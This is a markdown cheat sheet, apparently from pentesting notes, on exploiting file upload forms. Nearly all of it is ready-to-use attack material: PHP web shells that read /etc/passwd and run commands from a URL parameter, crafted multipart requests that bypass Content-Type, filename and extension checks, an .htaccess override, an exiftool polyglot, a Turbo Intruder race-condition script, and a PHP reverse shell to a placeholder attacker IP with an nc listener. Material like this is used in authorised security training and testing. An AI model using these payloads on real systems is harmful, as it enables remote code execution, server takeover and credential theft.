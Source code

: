 ```yaml
---
title: File Upload Vulnerabilities
desc: Examples of File Upload Vulnerabilities.
tags: [FileUpload, ReverseShell, Web]
alts: []
website:
render_with_liquid: false
---
```


## Web shell (.php)

```php
<?php echo file_get_contents('/etc/passwd');  ?>

// https://vulnerable.com/exploit.php?cmd=whoami
<?php echo system($_GET['cmd']); ?>
```

<br />

## Content-Type validation (change Content-Type)

```php
POST /upload HTTP/1.1
...

------abcdefghijk
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: image/jpeg

<?php echo file_get_contents('/etc/passwd');  ?>

------abcdefghijk
...
```

<br />

## Directory Traversal (change filename)

```php
POST /upload HTTP/1.1
...

------abcdefghijk
Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
Content-Type: application/x-php

<?php echo file_get_contents('/etc/passwd');  ?>

------abcdefghijk
```

<br />

## File Extension Bypass

```
exploit.php
exploit.php3
exploit.php4
exploit.php5
exploit.phtml
exploit.php.
exploit.php.jpg
exploit.php.png
exploit%2Ephp
exploit.p.phphp
exploit.php%00.jpg
exploit.php%0d%0a.jpg
exploit.pHp
exploit.gif.pHp
exploit.jpg.php
exploit.png.php
```

<br />

## Override Server Configuration

```php
POST /upload HTTP/1.1
...

------abcdefghijk
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .abc

------abcdefghijk
```

<br />

## Polyglot Web Shell (using exiftool)

```sh
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" example.jpg -o polyglot.php
```

<br />

## Race condition (using Turbo Intruder)

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=10,)

    request_post = '''POST /avatar/upload HTTP/1.1
Host: vulnerable.com
...
...
Connection: close

------abcdefghi
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/x-php

<?php echo file_get_contents('/etc/passwd');  ?>

------abcdefghijk--

'''

    request_get = '''GET /files/avatars/exploit.php HTTP/1.1
Host: vulnerable.com
...
...
Connection: close


'''

    engine.queue(request_post, gate='race1')
    for i in range(5):
        engine.queue(request_get, gate='race1')


    engine.openGate('race1')
    engine.complete(timeout=60)
    


def handleResponse(req, interesting):
    table.add(req)
```

<br />

## Reverse Shell

```php
// Upload reverse_shell.php to the upload form
<?php shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1'"); ?>

// -------------------------------------

// Listening port on the attack machine...
nc -lvnp 4444

// ----------------------------------------

Access to http://vulnerable.com/path/to/upload/reverse_shell.php in browser.
```

<br />

## Filter (Client-Side & Server-Side) Bypass

If the target website uses filter JavaScript around file upload, you’ll be able to bypass it by using Burp Suite.

```sh
On Burp Suite, click "Proxy" tab and "Options".

# Client-Side
1. Navigate to "Intercept Client Requests" section, click on the top line ("File extension"...) then click "Edit".
2. The popup will open.
3. On the popup, find and remove the "|^js$" in the "Match condition", then save the filter.

# Server-Side
1. Navigate to "Intercept Server Requests" section and check "Intercept responses based on...".

# ----------------------------------------------

1. Turn the intercept on.
2. On browser, press Ctrl+F5 (hard refresh) to reload the page.
3. If you found the filtering file (.js), drop it.
```

<br />

## Bypass exif_imagetype() for PHP

Fake image file with exploit.php

```php
// exploit.php

GIF32a
<?php echo system('whoami'); ?>
```

<br />
